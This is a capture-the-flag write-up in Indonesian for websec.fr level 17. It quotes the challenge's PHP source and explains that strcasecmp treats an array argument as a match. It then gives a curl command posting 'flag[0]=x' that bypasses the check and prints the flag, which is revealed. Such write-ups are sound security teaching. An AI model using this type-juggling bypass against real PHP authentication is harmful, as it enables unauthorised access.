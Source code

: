 ```
                                </form>
                            </div>
                        </div>
                        <?php
                        if (isset ($_POST['flag'])):
                            sleep_rand(); /* This makes timing-attack impractical. */
                        ?>
            <br>
                        <div class="container">
                            <div class="row">
                                <?php
                                if (! strcasecmp ($_POST['flag'], $flag))
                                    echo '<div class="alert alert-success">Here is your flag: <mark>' . $flag . '</mark>.</div>';   
                                else
                                    echo '<div class="alert alert-danger">Invalid flag, sorry.</div>';
                                ?>
                            </div>
                        </div>
                        <?php endif ?>
                </div>
        </body>
</html>
```

Penulis langsung melihat ke fungsi yang digunakan untuk string compare dengan flag yang sudah di include diatas.

[https://www.php.net/manual/en/function.strcasecmp.php](https://www.php.net/manual/en/function.strcasecmp.php)

strcasecmp adalah string comparison yang case-insensitive menggunakan binary, dan akan mengembalikan value < 0 jika arg1 lebih kecil dari arg 2, value > 0 jika arg1 lebih besar dari arg2 , dan value 0 jika keduanya sama.

Namun ternyata ada cara untuk memaksa strcasecmp untuk me return 0, yaitu ketika sebuah string di compare dengan sebuah array akan selalu mereturn 0

Mari kita coba kirim request dengan POST data array

```
curl -X POST https://websec.fr/level17/index.php -F 'flag[0]=x' | grep -i WEBSEC
```

Flag : WEBSEC{It_seems_that_php_could_use_a_stricter_typing_system}

![Image](img/level17/2.PNG)
